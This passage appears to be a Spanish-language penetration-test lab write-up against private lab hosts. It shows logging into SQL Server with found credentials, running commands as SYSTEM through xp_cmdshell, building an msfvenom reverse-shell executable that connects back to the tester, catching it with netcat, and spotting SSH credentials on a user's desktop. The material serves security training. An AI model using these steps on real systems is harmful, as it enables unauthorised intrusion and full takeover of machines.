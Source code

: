 Ruta: `http://172.16.64.140/project/backup/test/sdadas.txt`

![sql](/assets/imgs/box1/sql.png)

## 172.16.64.199

### SQL Server

Credenciales: `Uid=fooadmin;Pwd=fooadmin`

```
❯ impacket-mssqlclient fooadmin:'fooadmin'@172.16.64.199
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WIN10\FOOSQL): Line 1: Changed database context to 'master'.
[*] INFO(WIN10\FOOSQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208)
[!] Press help for extra shell commands
SQL> xp_cmdshell whoami
output                                                                          

--------------------------------------------------------------------------------

nt authority\system                                                             
```

### NT Authority System

Creando payload malicioso.

```
❯ msfvenom -p windows/shell_reverse_tcp lhost=172.16.64.10 lport=4444 -f exe  > shell.exe
```

```
SQL> xp_cmdshell shell.exe

───────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.16.64.10] from (UNKNOWN) [172.16.64.199] 49679
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Hay un archivo (id_rsa.pub) que parece una clave SSH en el escritorio del usuario de AdminELS.  
Si observamos detenidamente podremos bservar las credenciales de un usuario via `ssh` para el host `172.16.64.182`.
